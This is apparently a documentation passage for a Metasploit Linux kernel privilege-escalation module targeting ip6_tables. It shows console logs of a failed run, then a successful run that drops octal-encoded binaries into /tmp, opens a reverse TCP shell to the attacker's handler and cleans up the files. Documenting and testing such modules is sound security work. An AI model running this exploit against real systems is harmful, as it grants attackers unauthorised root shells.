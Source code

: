
#### Escalate w/ pre-compiled binaries

    msf exploit(ipv6_table_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Writing to cxvXS1Et (7808 bytes)
    [*] Max line length is 65537
    [*] Writing 7808 bytes in 1 chunks of 21956 bytes (octal-encoded), using printf
    [*] Writing to euPEmXEw (9264 bytes)
    [*] Max line length is 65537
    [*] Writing 9264 bytes in 1 chunks of 23971 bytes (octal-encoded), using printf
    [*] Writing to /tmp/tlbHJ3An (206 bytes)
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Exploiting... This may take around 2min to complete.
    [*] /bin/sh: 107: /tmp/cxvXS1Et: not found
    [*] Exploit completed, but no session was created.
    msf exploit(ipv6_table_priv_esc) > reload
    [*] Reloading module...
    exploitmsf exploit(ipv6_table_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Writing to /tmp/cxvXS1Et (7808 bytes)
    [*] Max line length is 65537
    [*] Writing 7808 bytes in 1 chunks of 21956 bytes (octal-encoded), using printf
    [*] Writing to /tmp/euPEmXEw (9264 bytes)
    [*] Max line length is 65537
    [*] Writing 9264 bytes in 1 chunks of 23971 bytes (octal-encoded), using printf
    [*] Writing to /tmp/tlbHJ3An (206 bytes)
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Exploiting... This may take around 2min to complete.
    [*] Sending stage (38 bytes) to 192.168.2.137
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.137:32774) at 2016-10-25 16:11:25 -0400
    [+] Deleted /tmp/cxvXS1Et
    [+] Deleted /tmp/euPEmXEw
    [+] Deleted /tmp/tlbHJ3An
    